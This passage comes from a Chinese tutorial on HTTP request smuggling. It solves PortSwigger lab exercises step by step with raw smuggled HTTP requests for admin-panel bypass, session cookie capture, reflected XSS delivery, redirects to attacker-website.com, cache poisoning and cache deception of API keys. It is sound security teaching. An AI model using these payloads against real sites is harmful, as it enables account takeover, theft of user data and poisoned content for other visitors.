Connection: close

x=1
```

第一个报文显示结果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155948-10ce564a-aa0e-1.png)

第二个请求中显示直接进入 Admin 面板

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160001-18e6df50-aa0e-1.png)  
并发现两个用户和对应的删除操作选项  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160018-22c99b3e-aa0e-1.png)  
随后我们直接使用前面的响应作为参考，更改走私的请求 URL 以删除用户 carlos

```plain
POST / HTTP/1.1
Host: 0ae000aa04f227c28184f2bb00e80084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-abcdef-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160043-31f987f4-aa0e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160055-38f7ddd0-aa0e-1.png)  
刷新页面完成解题：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160110-41fb2888-aa0e-1.png)

### 绕客户端

在 TLS 握手过程中，服务器通过提供证书向客户端 (通常是浏览器) 验证自己，证书中包含他们的通用名称 (CN)，该名称应该与他们注册的主机名相匹配，然后客户端可以使用它来验证他们正在与属于预期域的合法服务器进行对话，而部分站点则实现了双向认证，在这种认证方式下客户端也必须向服务器提供证书，客户端的 CN 通常是用户名等，例如：它可以在后端应用程序逻辑中用作访问控制机制的一部分，对客户端进行身份验证的组件通常是通过一个或多个非标准的 HTTP 头将证书中的相关细节传递给应用程序或后端服务器，例如：前端服务器有时会将包含客户端 CN 的标头附加到请求头中：

```plain
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos
```

由于这些头应该对用户完全隐藏，它们通常被后端服务器隐式信任，如果您能够发送正确的头和值的组合，那么将可能够绕过访问控制限制，而实际上这种行为通常是不可利用的，因为前端服务器倾向于覆盖这些已经存在的头，然而走私的请求对前端是完全隐藏的，所以它们包含的任何头都将被发送到后端而不被改变

```plain
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

### 越权操作

如果应用程序包含任何类型的功能，允许您存储并在以后检索文本数据，那么此时您可以潜在地使用它来捕获其他用户请求的内容，这些可能包括用户提交的会话令牌或其他敏感数据，评论、电子邮件、个人资料描述、屏幕名称等等都适合作为这种攻击的载体，在执行攻击时您需要发送一个向存储函数提交数据的请求，并将包含要存储的数据的参数放在请求的最后，例如：假设一个应用程序使用下面的请求来提交一篇博客文章的评论，该评论将被存储并显示在博客上

```plain
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

此时我们可以发送一个内容长度过长的请求并且注释参数位于请求的末尾

```plain
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

走私请求的 Content-Length 头部表示主体将有 400 个字节长，但是我们只发送了 144 个字节，在这种情况下，后端服务器将在发出响应之前等待剩余的 256 个字节，如果响应不够快，则会发出超时，因此当另一个请求通过相同的连接发送到后端服务器时，前 256 个字节会被有效地附加到走私的请求中，从而得到如下响应

```plain
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
...
```

由于受害者请求的开始包含在 comment 参数中，这将作为评论发布在博客上，随后便能够通过访问相关的帖子来阅读它，为了捕获更多的受害者请求，您只需要相应地增加被走私请求的 Content-Length 头的值，不过需要请注意的是这将涉及一定量的试错，如果您遇到超时，这可能意味着您指定的内容长度大于受害者请求的实际长度，在这种情况下只需降低该值，直到攻击再次奏效，下面我们通过一个靶场示例进行演示  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)  
靶场介绍：本实验涉及前端和后端服务器，前端服务器不支持分块编码，为了解决这个问题，你需要将一个请求偷偷发送到后端服务器，使下一个用户的请求存储在应用程序中，然后检索下一个用户的请求并使用受害用户的 cookies 来访问他们的帐户  
绕过演示：  
Step 1：首先访问上面的靶场地址并点击"ACCESS THELAB"进入靶场  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160300-83a13840-aa0e-1.png)  
Step 2：随意点击一个 blog 并进行评论操作  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160315-8c7f36b0-aa0e-1.png)  
确定评论有效

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160331-9610acd6-aa0e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160337-99b1c078-aa0e-1.png)

Step 3：随后将请求的 Content-Length 增加到 600，然后将其偷偷发送到后端服务器，从响应中可以看到请求走私的内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160351-a1e923a8-aa0e-1.png)

然后改为 800，经过多次尝试后获得 Session

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160407-ab8ec44e-aa0e-1.png)  
貌似 session 不全，后面再次做调整改为 808

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160926-695d7164-aa0f-1.png)

Step 4：点击 Login 并进行登录，替换 SESSION 为之前的带出来的 SESSION 信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160940-71a42dd6-aa0f-1.png)  
Step 5：随后完成解题  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103160955-7a7d1e68-aa0f-1.png)

### XSS 反射

如果应用程序容易受到 HTTP 请求走私的攻击并且还包含反射 XSS，那么我们便可以使用请求走私攻击来攻击应用程序的其他用户，这种方法在两个方面优于反射 XSS 的正常利用

-   它不需要与受害用户进行交互，你不需要给他们一个网址，然后等他们来访问，您只需偷偷发送一个包含 XSS 负载的请求，由后端服务器处理的下一个用户的请求就会被命中
-   它可用于在普通反射 XSS 攻击中无法轻易控制的请求部分 (例如：HTTP 请求头) 中利用 XSS 行为

假设一个应用程序在用户代理头中有一个反射的 XSS 漏洞，您可以在请求走私攻击中利用这一点，如下所示：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

下一个用户的请求将被附加到被发送的请求中，他们将在响应中收到反射的 XSS 有效载荷，下面我们通过一个靶场示例来进行演示说明：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)  
靶场介绍：本实验涉及前端和后端服务器，前端服务器不支持分块编码，该应用程序还容易受到通过 User-Agent 标头反射的 XSS 的攻击，为了解决这个实验，你需要向后端服务器发送一个请求，使下一个用户的请求收到一个响应，该响应包含一个执行 alert(1) 的 XSS 漏洞  
演示过程：  
Step 1：直接访问上面的靶场地址，点击"ACCESS THELAB"进入靶场，随意访问一个 Blog 并使用 burpsuite 抓包，插入 User-Agent 头并写入恶意载荷并构造走私请求的数据包

```plain
POST / HTTP/1.1
Host: 0a2300d804da7e7b8021809600830024.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103161101-a2289e7e-aa0f-1.png)  
随后目标用户访问网站时即可触发恶意 XSS  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103161120-ad983710-aa0f-1.png)  
随后成功完成解题：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103161133-b50a4b82-aa0f-1.png)

### 重定向类

在日常的 Web 开发中有很多的应用程序都会有从一个 URL 到另一个 URL 的重定向场景，而且大部分都是直接提取的请求包中的 host 头部信息，例如：Apache 和 IIS web 服务器的默认行为，其中对没有尾随斜杠的文件夹的请求接收到重定向到包括尾随斜杠的相同文件夹中

```plain
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

这种行为通常被认为是无害的，但是它可以在请求走私攻击中被利用来将其他用户重定向到外部 URL，例如：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

走私的请求将触发重定向到攻击者的网站，这将影响后端服务器处理的下一个用户的请求，例如：

```plain
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

我们可能遇到服务器级重定向大多使用路径为位置标头构造相对于根目录的 URL，例如：

```plain
GET /example HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: /example/
```

上面的貌似没啥大问题，但是如果服务器允许在路径中使用与协议相关的 URL，这仍有可能用于开放式重定向

```plain
GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: //attacker-website.com/example/
```

### 缓存投毒

在上述攻击的变体中我们也可以利用 HTTP 请求走私来执行 Web 缓存中毒攻击，如果前端基础结构的任何部分执行内容缓存 (通常是出于性能原因)，那么就有可能用异地重定向响应来破坏缓存，这将使攻击持续下去，影响任何随后请求受影响 URL 的用户，在这种变体中攻击者向前端服务器发送以下所有内容：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

走私的请求到达后端服务器后，位于后端的服务器会像以前一样用重定向进行响应，前端服务器根据它认为是第二个请求中的 URL(即/static/include.js) 缓存此响应，此时当其他用户请求此 URL 时，将会受到攻击者网站的重定向

```plain
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

下面我们通过一个靶场进行简单的演示：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)  
靶场介绍：本实验涉及前端和后端服务器，前端服务器不支持分块编码传输，前端服务器被配置为缓存某些响应，为了解决这个实验，你需要执行一个请求走私攻击，导致缓存中毒，这样一个 JavaScript 文件的后续请求接收到一个重定向到利用服务器，中毒的缓存应该向 document.cookie 发出警报  
过程演示：  
首先访问上述的靶场地址然后点击"ACCESS THELAB"进入靶场，随后点开任意一个 Blog，然后点击"Next Blog"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103161440-245a8222-aa10-1.png)  
此时我们会捕获到以下请求数据包：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103161614-5c839008-aa10-1.png)  
随后我们重新来过并更改请求数据包在其中插入走私的请求报文内容：

```plain
POST / HTTP/1.1
Host: 0adb000003e8f05f81aa7f7900e90038.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Transfer-Encoding: chunked

0

GET /post/next?postId=8 HTTP/1.1
Host: baidu.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103161642-6d4b80da-aa10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103161648-70de0c4a-aa10-1.png)  
在这里我们可以使用此请求将对网站的下一个请求重定向到/发布到我们自己选择的主机上，下面我们直接使用平台提供的漏洞服务器做一个演示，在/post 创建一个 text/javascript 文件：

```plain
alert(document.cookie)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103161707-7c1264da-aa10-1.png)

随后构造以下走私的请求

```plain
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 193
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103161733-8ba620f8-aa10-1.png)

刷新博客站点可以看的被投毒的效果

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103161747-93c81980-aa10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103161758-9a9ba90c-aa10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103161808-a0b0b472-aa10-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103161820-a7a243fe-aa10-1.png)

### 缓存欺骗

在上述的上述的攻击变种中，您可以利用 HTTP 请求走私来执行 Web 缓存欺骗，这与 Web 缓存中毒攻击的工作方式类似，但目的不同

-   在 Web 缓存中毒中，攻击者使应用程序在缓存中存储一些恶意内容，这些内容从缓存提供给其他应用程序用户
-   在 Web 缓存欺骗中，攻击者使应用程序将属于另一个用户的一些敏感内容存储在缓存中，然后攻击者从缓存中检索这些内容

在这种变体中攻击者走私一个返回一些敏感的用户特定内容的请求，例如：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

转发到后端服务器的来自另一个用户的下一个请求将被附加到走私的请求中，包括会话 cookies 和其他头，例如：

```plain
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

后端服务器以正常方式响应这个请求，请求中的 URL 用于用户的私人消息，请求在受害用户会话的上下文中处理，前端服务器根据它认为是第二个请求中的 URL(即/static/some-image.png) 缓存此响应

```plain
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```

然后攻击者访问静态 URL 并接收从缓存返回的敏感内容，这里一个重要的点是攻击者不知道敏感内容将被缓存到哪个 URL，因为这将是受害者用户在走私的请求生效时碰巧请求的任何 URL，攻击者可能需要获取大量静态 URL 来发现捕获的内容，下面我们通过一个靶场进行简单的演示：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception)  
靶场介绍：本实验涉及前端和后端服务器，前端服务器不支持分块编码，前端服务器正在缓存静态资源，为了解决这个实验，你需要执行一个请求走私攻击，使得下一个用户的请求导致他们的 API 密钥被保存在缓存中，然后从缓存中检索受害用户的 API 密钥并将其作为实验室解决方案提交，在尝试欺骗受害者缓存他们的 API 密钥之前，您需要等待 30 秒才能访问实验室，您可以使用以下凭据登录自己的帐户:wiener:peter  
靶场演示：  
Step 1：登录账户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103170659-73d67dc2-aa17-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103170706-77abc614-aa17-1.png)  
从数据包中可以看的并没有缓存的防御头信息  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103170717-7e3d3396-aa17-1.png)  
随后构造一下请求走私的数据包

```plain
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: X
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103170737-8a1ec0f8-aa17-1.png)  
重复这个请求几次，然后在匿名浏览器窗口中加载主页

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103170751-92accf62-aa17-1.png)  
使用 Burp 菜单上的搜索功能来查看“Your API Key”是否出现在任何静态资源中，如果没有则重复 POST 请求，强制重新加载浏览器窗口并重新运行搜索  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103170806-9b6ace1a-aa17-1.png)

提交受害者的 API 密钥作为实验室解决方案

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103170818-a2801b60-aa17-1.png)

## 文末小结

本篇文章主要怼请求走私的原理、请求走私的检测方式、利用请求走私绕过检测或限制、请求走私的扩展利用方式进行了全方面的介绍，由于篇幅问题这里就不再继续去深入探索 HTTP2.0 版本的请求走私问题了，后续有时间再进行补充说明~

## 参考链接

[https://www.youtube.com/watch?v=w-eJM2Pc0KI](https://www.youtube.com/watch?v=w-eJM2Pc0KI)  
[https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf](https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf)
